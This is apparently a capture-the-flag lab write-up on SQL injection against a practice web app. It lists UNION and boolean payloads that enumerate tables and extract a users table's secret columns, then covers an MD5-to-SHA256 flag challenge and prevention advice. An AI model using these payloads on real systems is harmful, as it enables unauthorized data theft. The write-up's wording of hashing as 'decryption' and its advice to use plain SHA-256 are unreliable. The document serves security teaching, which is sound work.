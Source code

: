 # SQL Injection and Cryptographic Challenge Documentation

## Overview

This document provides a comprehensive guide on identifying and exploiting SQL injection vulnerabilities within a web application. Additionally, it outlines a cryptographic challenge involving MD5 hash decryption and SHA256 re-encryption, aimed at enhancing understanding of cryptographic principles and practices.

## Vulnerability Description

SQL injection vulnerabilities occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application. This document details various types of SQL injection attacks, including table name disclosure, column name disclosure, boolean-based SQL injection and data extraction, highlighting the potential for unauthorized access to or manipulation of database information.

## Exploitation

### Discovering Database Tables

- **Payload**: `1 UNION SELECT null, table_name FROM information_schema.tables`
- **Purpose**: This payload is used to list all tables within the database.

### Checking for Table Existence

- **Payloads**:
- `1 OR 1=1`: This payload is a basic test to change the query logic to always return true.
- `1 OR EXISTS (SELECT * FROM users)`: This payload checks if the `users` table exists by attempting to select records from it.

### Column Name Disclosure

- **Payload**: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
- **Usefullness:** Common SQL query used in SQL injection attacks to retrieve column names in tables.

## Extracting Sensitive Data

- **Payload**: `1 OR 1=1 UNION SELECT Commentaire, countersign from users`
- **Purpose**: This payload extracts sensitive data from the `users` table, specifically the `Commentaire` and `countersign` columns.
- **Details**: The `users` table contains columns such as `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, and `countersign`.

## Cryptographic Challenge

- **Challenge**: Decrypt an MD5 hash and then re-encrypt the plaintext using SHA256.
- **MD5 Hash**: `5ff9d0165b4f92b14994e5c685cdce28`
- **Decrypted Text**: "FortyTwo"
- **Instructions**: Decrypt the given MD5 hash to plaintext, convert the plaintext to lowercase, and then encrypt it using SHA256 to reveal a flag.

## Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL injection, as they ensure that the input is treated as a data value rather than part of the SQL command.
- **Input Validation**: Implement strict input validation checks to reject suspicious or malformed data.
- **Use of Prepared Statements**: With prepared statements, the SQL query is defined separately from its parameters, minimizing the risk of injection.
- **Employ Stronger Hashing Algorithms**: Replace MD5 with more secure hashing algorithms like SHA-256 to enhance cryptographic security.
- **Regular Security Audits**: Conduct thorough security audits and penetration testing to identify and mitigate vulnerabilities.

## Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [MD5 Hash Generator and Decrypt](https://md5decrypt.net/en/)
- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

This documentation aims to raise awareness about the critical nature of SQL injection vulnerabilities and the importance of cryptographic security in modern web applications. By understanding and applying the outlined prevention techniques, developers and security professionals can significantly enhance the security posture of their applications.
